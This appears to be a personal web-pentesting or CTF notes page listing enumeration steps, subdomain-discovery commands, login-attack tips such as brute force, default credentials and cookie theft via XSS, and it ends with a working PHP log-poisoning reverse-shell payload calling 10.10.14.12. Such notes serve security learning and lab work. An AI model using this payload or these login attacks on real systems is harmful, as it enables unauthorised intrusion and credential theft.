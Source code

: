 ## Checklist

- Whatweb
- Subdomains
- Checkout what the web display
- Read entire pages. Enumerate for emails, names, user info etc.
- Directory discovery
- Enum the interface, version of CMS? Server installation page?
- Potential vulnerability? LFI, RFI, XEE, Upload?
- Default web server page, version information
- View source code
    - Hidden Values
    - Developer Remarks
    - Extraneous Code
    - Passwords        
- Robots.txt
- Web scanning
## HTTPs certification

	Might have username

## Script to preview the website from IP in html

Create a list of the IP and Extract PNG

	for ip in $(cat web-ip.txt | grep 80 | grep -v "Nmap" |
	
	awk '{print $2}'); do cutycapt --url=$ip --out=$ip.png;done

Make it HTML pngtohtml.sh

	#!/bin/bash
	# Bash script to examine the scan results through HTML.
	echo "<HTML><BODY><BR>" > web.html
	ls -1 *.png | awk -F : '{ print $1":\n<BR><IMG SRC=\""$1""$2"\" width=600><BR>"}' >> w
	eb.html
	echo "</BODY></HTML>" >> web.html

## Redirecting webpage automatically?

- noredirect plugin
## Login page

- View source code
- Use default password
- Brute force directory first (sometime you don't need to login to pwn the machine)
- Search credential by bruteforce directory
- bruteforce credential
- Search credential in other service port
- Enumeration for the credential
- Register first
- SQL injection
- XSS can be used to get the admin cookie
- Bruteforce session cookie
## Find Subdomains
	crt.sh

	subfinder -d [domain]

	assetfinder [domain]

	amass enum -d [domain]

	gowitness file -f [domains file] -P [directory to save to] --no-http

	theharvester -d [domain] -b [data source, ex. google] -f [output] -l [length]
	
	wfuzz -c --hw 977 -u [host] -H "Host: FUZZ.[host]" -w [wordlist]
	nslookup --type=NS [domain]
	
	ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u [host] -H "Host: FUZZ.[host]" -fs 20637 -t 100
## Find Virtual Hosts
	fierce -dns [host]
## Identify WAF (Web Application Firewall)

	wafw00f
## Find version vulnerability?

- Google
## Password?

When presented with an enter credentials page, the first thing I try is common credentials (admin/admin, admin/password).

If that doesn’t work out, I look for default credentials online that are specific to the technology. Lastly, I use a password cracker if all else fails.

## Log poisoning

From LFI to RCE

If you get local file inclusion for log, you might be able to poison the log.

Change user agent to the following by intercept in burp to get reverse shell

	nc -lnvp 4444
	<?php exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.12 4444 >/tmp/f') ?>